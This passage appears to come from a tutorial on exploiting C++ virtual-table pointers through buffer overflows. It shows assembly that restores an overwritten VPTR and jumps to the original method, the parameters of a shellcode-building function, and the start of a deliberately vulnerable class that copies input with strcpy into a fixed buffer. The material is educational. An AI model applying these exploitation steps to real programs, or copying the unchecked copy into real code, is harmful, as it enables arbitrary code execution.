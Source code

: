 stosl  %eax,%es:(%edi)                  //correct the VPTR to point to the
                                        // original VTABLE
movb   $0x29,%al                        //AL=$LastByte (byte following the
                                        // VPTR in memory)
stosb  %al,%es:(%edi)                   //we correct this byte
movl   0xc(%ebx),%eax			//EAX=*VTABLEAddress+IAddress*4
                                        // (EAX take the address of the
                                        // original method in the original
                                        // VTABLE).
popf
popl   %ebx
popl   %ecx
popl   %edx
popl   %esi
popl   %edi                             //restore flags and registers
movl   %ebp,%esp
popl   %ebp                             //destroy the stack frame
jmp    *%eax                            //run the original method


We now must code a BufferOverflow() function that is going to "compile" us the 
shellcode and the stackcode, and to create the structure of our buffer.
Here are parameters that we should pass to this function:
- BufferAddress = address of our buffer in memory.
- IAddress = index in the VTABLE of the 1st method that will be executed.
- VPTROffset = offset in our buffer of the VPTR to overwrite.
- AddThis = value that will be added to the This pointer on the stack, because 
of the "strange handling".
- VTABLEAddress = address of the original VTABLE of our class (coded in the 
executable).
- *NewBuffer = a pointer to the new chain that we want to place in our buffer 
to normally continue the program.
- LastByte = the original byte following the VPTR in memory, that is
 overwritten at the time of the copy of our buffer in the original buffer,
 because of the 00h.

Here is the resulting code of the program (bo4.cpp):


#include <stdio.h>
#include <string.h>
#include <malloc.h>

#define BUFFERSIZE 256

class BaseClass { 
private:
 char Buffer[BUFFERSIZE];
public:
 void SetBuffer(char *String) {
  strcpy(Buffer,String);
 }
 virtual void PrintBuffer() {
  printf("%s\n",Buffer);
 }
};
